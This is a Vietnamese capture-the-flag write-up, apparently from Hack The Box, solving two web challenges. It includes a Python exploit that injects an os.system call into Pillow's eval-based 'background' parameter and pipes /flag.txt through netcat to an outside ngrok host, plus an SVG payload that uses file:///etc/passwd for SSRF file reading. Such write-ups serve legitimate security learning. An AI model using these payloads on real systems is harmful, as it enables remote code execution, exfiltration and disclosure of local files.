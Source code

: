 File `requirement.txt`:
```
wheel
Pillow==8.4.0
```

Thì nhận thấy Pillow==8.4.0 là 1 CVE hẳn hoi: https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901


Edit source code để debug, dump error các thứ, try and fix lặp đi lặp lại ta build được đoạn code để exploit. Payload sẽ nạp vào 1 trong các giá trị rgb của tham số `background`(thấy eval cộng trừ chỗ này sôi nổi).

`exploit.py`:
```python
import requests


# 178.62.119.24:31192
# localhost:1337
url = 'http://178.62.119.24:31192'

headers = {
    'Content-Type': 'application/json'
}

data = {
    'image': 'base64_img_string_here',
    'background': ['__import__("os").system("cat /flag.txt | nc 0.tcp.ap.ngrok.io 17059")', 238, 245 ]
}

r = requests.post(url+'/api/alphafy', json=data, headers=headers)

print(r.text)
```

Bởi giá trị rgb này output là các màu đơn thuần, đây là Blind Command Injection nên ta gửi flag đến netcat hứng flag thôi.

**flag**: `HTB{i_slept_my_way_to_rce}`

## Mutation Lab

**Description**: Một bài black-box

1. Gửi svg lên server với syntax json: `{"svg": "....."}`, server return về 1 ảnh png --> SSRF
2. Cookies session là `{"username": "test"}` được base64_encode và session.sign tránh bị sửa đổi.
3. Main page hint phải là admin mới thấy được secret.
Dùng payload này để SSRF: https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244
```html
<?xml version="1.0" standalone="no"?> 
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";> <svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink= "http://www.w3.org/1999/xlink";> 
<image xlink:href="file:///etc/passwd" ox="0" y="0" height="640px" width="480px"/> 
</svg>
```
